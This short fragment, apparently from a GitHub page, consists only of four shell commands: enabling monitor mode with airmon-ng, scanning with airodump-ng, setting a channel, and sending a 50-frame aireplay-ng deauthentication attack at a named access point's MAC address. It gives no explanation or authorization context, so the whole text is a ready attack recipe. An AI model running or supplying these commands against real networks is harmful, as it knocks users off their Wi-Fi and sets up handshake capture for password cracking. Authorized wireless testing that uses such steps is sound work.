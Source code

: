 ```ruby
sudo airmon-ng start wlp0s20f3
```

~~~ruby
sudo airodump-ng wlp0s20f3mon
~~~

~~~ruby
sudo iwconfig wlp0s20f3mon channel 10
~~~

~~~ruby
	sudo aireplay-ng --deauth 50 -a E4:C3:2A:65:F9:7E wlp0s20f3mon
~~~

